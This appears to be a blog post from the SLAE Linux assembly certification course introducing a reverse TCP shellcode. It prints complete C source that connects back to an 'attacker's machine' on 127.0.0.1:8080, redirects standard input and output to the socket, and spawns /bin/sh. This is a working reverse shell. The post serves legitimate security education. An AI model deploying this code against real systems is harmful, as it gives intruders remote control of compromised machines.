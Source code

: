```yaml
---
layout: post
title:  "SLAE Assignment 2 - TCP Reverse Shellcode"
date:   2017-04-19
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  

Hello everybody,  
  
So here we are for the second part of our shellcodes serie. Today we will deal with a reverse TCP shellcode.  
This shellcode will be pretty similar to the bind one, except that we will connect back to the attacker's machine in order to provide a shell on the compromised one.  
  
So let's see what changed.  
  
## Assignment 2:  

Code is available on my [github repo](https://github.com/phackt/slae/tree/master/assignment2).  
  
**Our Goal:**  
> *Create a Shell_Reverse_TCP shellcode:*
 - *reverse connects to IP and PORT and spawns a shell*
 - *easily configurable IP and PORT*

Here is the C source code we used:  
```c
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
 
int main(void)
{
        int clientfd, sockfd, ret;
        int dstport = 8080;
        struct sockaddr_in mysockaddr;
 
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
        mysockaddr.sin_family = AF_INET; //2
        mysockaddr.sin_port = htons(dstport); //8080
        mysockaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //localhost
 
        // connecting to attacker's machine
        ret = connect(sockfd, (struct sockaddr *) &mysockaddr, sizeof(struct sockaddr_in));
        if(ret == -1)
        {
                perror("Attacker's machine is not listening. Quitting!");
                exit(-1);
        }

        dup2(sockfd, 0);
        dup2(sockfd, 1);
        dup2(sockfd, 2);
 
        execve("/bin/sh", NULL, NULL);
        return 0;
```
